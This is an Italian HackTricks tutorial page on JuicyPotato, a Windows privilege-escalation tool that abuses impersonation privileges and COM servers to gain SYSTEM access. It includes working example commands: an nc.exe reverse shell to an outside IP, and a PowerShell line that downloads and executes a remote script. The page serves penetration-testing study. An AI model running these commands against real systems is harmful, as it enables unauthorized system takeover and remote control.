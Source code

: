 # JuicyPotato

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="warning" %}
**JuicyPotato non funziona** su Windows Server 2019 e Windows 10 build 1809 e successivi. Tuttavia, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) possono essere utilizzati per **sfruttare gli stessi privilegi e ottenere accesso a livello `NT AUTHORITY\SYSTEM`**. _**Controlla:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (abusing the golden privileges) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_Versione zuccherata di_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, con un po' di succo, cioè **un altro strumento di escalation dei privilegi locali, da un Windows Service Accounts a NT AUTHORITY\SYSTEM**_

#### Puoi scaricare juicypotato da [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

### Summary <a href="#summary" id="summary"></a>

[**Dal Readme di juicy-potato**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) e le sue [varianti](https://github.com/decoder-it/lonelypotato) sfruttano la catena di escalation dei privilegi basata sul [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [servizio](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) avendo il listener MiTM su `127.0.0.1:6666` e quando hai privilegi `SeImpersonate` o `SeAssignPrimaryToken`. Durante una revisione della build di Windows abbiamo trovato una configurazione in cui `BITS` era intenzionalmente disabilitato e la porta `6666` era occupata.

Abbiamo deciso di armare [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG): **Dì ciao a Juicy Potato**.

> Per la teoria, vedi [Rotten Potato - Privilege Escalation from Service Accounts to SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) e segui la catena di link e riferimenti.

Abbiamo scoperto che, oltre a `BITS`, ci sono diversi server COM che possiamo sfruttare. Devono solo:

1. essere istanziabili dall'utente corrente, normalmente un "utente di servizio" che ha privilegi di impersonificazione
2. implementare l'interfaccia `IMarshal`
3. essere eseguiti come un utente elevato (SYSTEM, Administrator, …)

Dopo alcuni test abbiamo ottenuto e testato un elenco esteso di [CLSID interessanti](http://ohpe.it/juicy-potato/CLSID/) su diverse versioni di Windows.

### Juicy details <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato ti consente di:

* **Target CLSID** _scegli qualsiasi CLSID tu voglia._ [_Qui_](http://ohpe.it/juicy-potato/CLSID/) _puoi trovare l'elenco organizzato per OS._
* **COM Listening port** _definisci la porta di ascolto COM che preferisci (invece della hardcoded 6666)_
* **COM Listening IP address** _collega il server a qualsiasi IP_
* **Process creation mode** _a seconda dei privilegi dell'utente impersonato puoi scegliere tra:_
* `CreateProcessWithToken` (richiede `SeImpersonate`)
* `CreateProcessAsUser` (richiede `SeAssignPrimaryToken`)
* `entrambi`
* **Process to launch** _lancia un eseguibile o uno script se lo sfruttamento ha successo_
* **Process Argument** _personalizza gli argomenti del processo lanciato_
* **RPC Server address** _per un approccio furtivo puoi autenticarti a un server RPC esterno_
* **RPC Server port** _utile se vuoi autenticarti a un server esterno e il firewall blocca la porta `135`…_
* **TEST mode** _principalmente per scopi di test, cioè testare i CLSID. Crea il DCOM e stampa l'utente del token. Vedi_ [_qui per il test_](http://ohpe.it/juicy-potato/Test/)

### Usage <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### Pensieri finali <a href="#final-thoughts" id="final-thoughts"></a>

[**Dal Readme di juicy-potato**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

Se l'utente ha i privilegi `SeImpersonate` o `SeAssignPrimaryToken`, allora sei **SYSTEM**.

È quasi impossibile prevenire l'abuso di tutti questi server COM. Potresti pensare di modificare i permessi di questi oggetti tramite `DCOMCNFG`, ma buona fortuna, sarà una sfida.

La soluzione reale è proteggere gli account e le applicazioni sensibili che vengono eseguiti sotto gli account `* SERVICE`. Fermare `DCOM` inibirebbe certamente questo exploit, ma potrebbe avere un impatto serio sul sistema operativo sottostante.

Da: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## Esempi

Nota: Visita [questa pagina](https://ohpe.it/juicy-potato/CLSID/) per un elenco di CLSID da provare.

### Ottieni una shell inversa nc.exe
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### Avvia un nuovo CMD (se hai accesso RDP)

![](<../../.gitbook/assets/image (300).png>)

## Problemi con CLSID

Spesso, il CLSID predefinito che JuicyPotato utilizza **non funziona** e l'exploit fallisce. Di solito, ci vogliono più tentativi per trovare un **CLSID funzionante**. Per ottenere un elenco di CLSID da provare per un sistema operativo specifico, dovresti visitare questa pagina:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **Controllo dei CLSID**

Prima, avrai bisogno di alcuni eseguibili oltre a juicypotato.exe.

Scarica [Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) e caricalo nella tua sessione PS, e scarica ed esegui [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). Quel script creerà un elenco di possibili CLSID da testare.

Poi scarica [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)(cambia il percorso per l'elenco CLSID e per l'eseguibile juicypotato) ed eseguilo. Inizierà a provare ogni CLSID, e **quando il numero di porta cambia, significherà che il CLSID ha funzionato**.

**Controlla** i CLSID funzionanti **utilizzando il parametro -c**

## Riferimenti

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)


{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository github.

</details>
{% endhint %}
